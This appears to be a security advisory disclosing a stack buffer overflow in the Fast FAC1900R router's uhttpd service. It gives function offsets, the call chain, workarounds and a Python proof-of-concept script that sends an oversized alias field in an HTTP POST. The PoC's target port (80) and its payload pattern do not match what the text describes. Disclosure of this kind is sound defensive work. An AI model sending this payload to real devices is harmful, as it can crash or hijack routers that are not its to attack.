






# Overview
Details of the vulnerability found in the Fast router FAC1900R.

| Firmware Name | Version | Download Link |
|--------------|---------|---------------|
| FAC1900R | 20190827_2.0.2 | https://service.fastcom.com.cn/download-379.html |

## Product Attribution

- Product: FAC1900R
- Name: FAC1900R
- Version: 20190827_2.0.2
- Vendor: Fast
- Vendor Website: https://www.fastcom.com.cn/
- Product Page: https://www.fastcom.com.cn/product/1900r.html


# Vulnerability Details

## 1. Vulnerability Trigger Location

A stack-based buffer overflow vulnerability exists in the `get_alias_name` function within the firmware's `uhttpd` service (at offset 0x4049C9A8). The function copies the `cloud_config.info.alias` (device alias) field from an HTTP JSON request into a stack buffer using `memcpy`, but fails to perform an upper-bound check on the user-controllable string length. A specially crafted HTTP POST request can trigger this vulnerability.




## 2. Vulnerability Analysis

This vulnerability occurs when the `uhttpd` service receives HTTP requests (on TCP port 10080). When processing a cloud configuration request that sets `cloud_config.info.alias`, the program enters the following call chain: `httpProcDataSrv` → `cloudMsgSetAliasHandle` → `devDiscoverNotify` → `update_advertisement_frame` → `get_alias_name` → `memcpy`.

```
TCP port 10080 (uhttpd HTTP service)
  └─ httpProcDataSrv()              @ 0x40493BF8  ← HTTP request handling entry
       └─ cloudMsgSetAliasHandle()  @ 0x40470F74  ← processes cloud_config message
            └─ devDiscoverNotify()  @ 0x4049A5B8  ← device discovery notification
                 └─ update_advertisement_frame()  @ 0x4049D148  ← updates broadcast frame
                      └─ get_alias_name()        @ 0x4049C9A8  ← vulnerability point
                           └─ memcpy(dest, src, user_controlled_len)
```




The target buffer `v6` resides in `get_alias_name`'s stack frame, with a size of only approximately 64 bytes. Since `memcpy` uses the user-controllable alias string length as the copy parameter without an upper-bound check, when an attacker sends an HTTP JSON request with an `alias` field length > 64 bytes (up to the Content-Length limit, e.g., 20480 bytes), the copy operation overwrites adjacent data on the stack, including the saved function return address (LR). Upon function return, PC jumps to the attacker-controlled address, triggering a service crash or potential control-flow hijacking (RCE).



## 3. Workaround

1. Add an upper-bound check on the alias string length in `get_alias_name`, ensuring `strlen(alias) <= sizeof(stack_buffer)`.
2. Validate the `cloud_config.info.alias` field length in `cloudMsgSetAliasHandle` before passing it downstream.
3. Use a length-bounded safe copy function (e.g., `strncpy` or pre-checked `memcpy`), or adopt boundary-safe functions.

## 4. Official Fix

No official patch for this vulnerability has been publicly released by the vendor at this time. Users are advised to monitor vendor security advisories and upgrade to the latest firmware version promptly.

# POC

## Python Scripts

```python
import socket

# Target: FAC1900R uhttpd service (TCP port 10080)
# Triggers get_alias_name stack buffer overflow via cloud_config.info.alias

payload = (
    b"POST /stok=test/ds HTTP/1.1\r\n"
    b"Host: 127.0.0.1:10080\r\n"
    b"Content-Type: application/json\r\n"
    b"Content-Length: 20548\r\n"
    b"\r\n"
    b'{"method":"set","cloud_config":{"info":{"alias":"'
    + b"A" * 20480
    + b'"}}}'
)

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("192.168.1.1", 80))
sock.send(payload)
sock.close()
```

**Payload Structure:**
- HTTP header: POST request to `/stok=test/ds`, Content-Type: application/json
- JSON body: `{"method":"set","cloud_config":{"info":{"alias":"AAAA..."}}}` where the alias field contains 20480 'A' characters (0x41)
- The oversized alias field triggers `memcpy` overflow in `get_alias_name`, overwriting ~64 bytes of stack buffer and corrupting the return address (LR)

# Vulnerability Trigger Process

1. Use `binwalk -Me` to extract the `10400` file from the original firmware (the firmware OS is VxWorks, this file is the main binary), along with the symbol table file `symbols.txt`.

> **Note:** Dynamic verification has been successfully performed using a self-developed VxWorks emulation tool (based on LibAFL QEMU system-mode emulation, ARM little-endian architecture, load base 0x40205000). The crafted HTTP POST payload (port 10080) triggers the stack overflow in `get_alias_name`, with Shadow Stack detection confirming precise PC control at **0x47474747** (marker bytes GGGG in little-endian), consistent with the expected payload pattern B*64+CCCC+DDDD+EEEE+FFFF+GGGG.



# Discoverer

m202472188@hust.edu.cn HUST IOTS&P lab
